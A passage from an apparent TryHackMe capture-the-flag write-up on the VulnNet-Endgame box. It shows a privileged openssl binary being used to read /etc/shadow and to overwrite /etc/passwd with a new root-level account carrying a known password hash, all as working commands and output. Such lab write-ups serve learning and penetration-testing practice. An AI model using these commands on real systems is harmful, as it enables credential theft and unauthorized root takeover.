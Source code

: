 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-Endgame/images/a23.png)

**Let's test reading `/etc/shadow`:**
```
system@vulnnet-endgame:~/Utils$ ./openssl enc -in /etc/shadow
root:$6$cB/S/D17${Redacted}.uZ38MHH4rQxamADbI/:19157:0:99999:7:::
daemon:*:18885:0:99999:7:::
bin:*:18885:0:99999:7:::
sys:*:18885:0:99999:7:::
sync:*:18885:0:99999:7:::
games:*:18885:0:99999:7:::
man:*:18885:0:99999:7:::
[...]

system@vulnnet-endgame:~/Utils$ ls -lah /etc/shadow
-rw-r----- 1 root shadow 1.5K Jun 14 16:48 /etc/shadow
```

**Wait, we can read `/etc/shadow`??**

Hmm... If we can read `/etc/shadow`, then we might also can write things to `/etc/passwd`!

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/VulnNet-Endgame/images/a24.png)

To gain root privilege, we can:

- Generate a password hash for `passwd`:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Vulnnet-Endgame]
└─# openssl passwd pwnedpassword
$1$.YB66nk1$8Gsn7z0GJMm8eH8D95k0K1
```

- Copy `/etc/passwd`, add a new user with root privilege:

```
system@vulnnet-endgame:~/Utils$ cp /etc/passwd /tmp/passwd.bak

system@vulnnet-endgame:~/Utils$ echo "pwned:\$1\$.YB66nk1\$8Gsn7z0GJMm8eH8D95k0K1:0:0:root:/root:/bin/bash" >> /tmp/passwd.bak
```

> Note: Remember to escape special characters in `echo` via `\`, like `$`.

- Overwrite the original `/etc/passwd` via `/home/system/Utils/openssl`:

```
system@vulnnet-endgame:~/Utils$ cat /tmp/passwd.bak | ./openssl enc -out /etc/passwd

system@vulnnet-endgame:~/Utils$ cat /etc/passwd
[...]
pwned:$1$.YB66nk1$8Gsn7z0GJMm8eH8D95k0K1:0:0:root:/root:/bin/bash
```

We successfully overwritten the `/etc/passwd`!!

Now let's **Switch User** to our newly created user!
